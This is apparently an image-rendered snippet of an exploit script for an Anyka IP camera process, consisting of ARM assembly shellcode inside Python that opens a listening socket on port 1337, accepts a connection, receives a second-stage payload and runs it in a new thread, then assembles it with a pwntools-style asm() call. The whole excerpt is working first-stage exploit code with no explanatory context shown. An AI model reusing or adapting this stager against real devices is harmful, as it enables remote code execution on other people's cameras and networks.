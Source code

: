 ```
	@ now call socket to get our socket fd and put fd on stack
	mov r0, #2
	mov r1, #1
	mov r2, #0
	ldr r12, =#{hex(socket_addr)}
	blx r12
	stmdb sp!,{{r0}}
	  
	@ create the sockaddr in memory (can use a bit of the device_param space in anyka_ipc as only 64 bytes used)
	ldr r2, =#0x39050002
	ldr r1, =#{hex(sockaddr_in_addr)}
	str r2, [r1]
	stmdb sp!,{{r1}}
	
	@ now call bind with the socket_fd in r0, and the sockaddr addr in r1 (plus len in r2)
	mov r2, #0x10
	ldr r3, =#{hex(bind_addr)}
	blx r3
	  
	@ now call listen to wait for connections, assume all registers dead
	ldr r0, [sp, #4]
	mov r1, 0x3
	ldr r3, =#{hex(listen_addr)}
	blx r3
	  
	@ at this point we now have a connection, accept the connection, save new socket
	ldr r3, =#{hex(accept_addr)}
	ldr r2, =#0xb8ad4
	ldr r0, [sp, #4]
	ldr r1, [sp]
	blx r3
	stmdb sp!,{{r0}}
	  
	@ now we need to recv the data on the new socket
	ldr r1, [sp, #0xc]
	ldr r2, =#{hex(stage_2_length)}
	mov r3, #0x0
	ldr r4, =#{hex(recv_addr)}
	blx r4
	  
	@ now close the socket for cleanliness
	ldr r0, [sp, #0x0]
	ldr r3, =#{hex(close_addr)}
	blx r3
	  
	@ create a thread that executes the received function (arg 4 on stack)
	ldr r0, =#0xffffffff
	str r0, [sp, #0x0]
	ldr r0, =#{thread_id_addr}
	ldr r1, [sp, #0xc]
	mov r2, #0
	ldr r3, =#0x19000
	ldr r8, =#{create_thread_addr}
	blx r8
	  
	@ exit the thread now
	ldr r3, =#{ak_thread_exit_addr}
	blx r3
	"""
	  
	payload_assembled = asm(stage1_asm, arch='arm', endian="little")
	payload_assembled_bytes = bytes.fromhex(payload_assembled.hex())
```